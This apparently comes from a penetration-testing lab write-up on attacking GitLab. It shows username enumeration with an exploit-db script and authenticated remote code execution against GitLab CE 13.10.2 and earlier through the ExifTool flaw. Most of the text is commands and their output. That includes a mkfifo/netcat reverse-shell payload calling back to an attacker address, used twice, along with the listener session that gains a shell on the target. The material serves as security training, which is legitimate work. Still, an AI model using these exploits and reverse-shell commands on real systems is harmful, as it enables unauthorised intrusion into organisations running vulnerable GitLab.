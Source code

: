 # Attacking GitLab

## Username Enumeration

we should be mindful of account lockout and other kinds of interruptions. GitLab's defaults are set to 10 failed attempts resulting in an automatic unlock after 10 minutes.

admin can modify the minimum password length, which could help with users choosing short, common passwords but will not entirely mitigate the risk of password attacks.

{% embed url="https://www.exploit-db.com/exploits/49821" %}
User Enum bash
{% endembed %}

```shell-session
./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  			             GitLab User Enumeration Script
   	    			             Version 1.0

Description: It prints out the usernames that exist in your victim's GitLab CE instance

Disclaimer: Do not run this script against GitLab.com! Also keep in mind that this PoC is meant only
for educational purpose and ethical use. Running it against systems that you do not own or have the
right permission is totally on your own risk.

Author: @4DoniiS [https://github.com/4D0niiS]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


LOOP
200
[+] The username root exists!
LOOP
302
LOOP
302
LOOP
200
[+] The username bob exists!
LOOP
302
```

## Authenticated Remote Code Execution

GitLab Community Edition version 13.10.2 and lower suffered from an authenticated remote code execution [vulnerability](https://hackerone.com/reports/1154542) due to an issue with ExifTool handling metadata in uploaded image files.

some companies are still likely using a vulnerable version.

{% embed url="https://www.exploit-db.com/exploits/49951" %}
RCE
{% endembed %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&#x26;1|nc 10.10.14.15 8443 >/tmp/f '
</strong>
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
</code></pre>

```shell-session
nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.88] 60054

git@app04:~/gitlab-workhorse$ id

id
uid=996(git) gid=997(git) groups=997(git)

git@app04:~/gitlab-workhorse$ ls

ls
VERSION
config.toml
flag_gitlab.txt
sockets
```

## Assessment

Find another valid user on the target GitLab instance.

* Used .sh file to enumerate more than half an hour and got no new usernames
* DEMO

Gain remote code execution on the GitLab instance. Submit the flag in the directory you land in.

```
python3 rce.py -t http://gitlab.inlanefreight.local:8081 -u lky -p password -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.5 7890 >/tmp/f '
```

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>




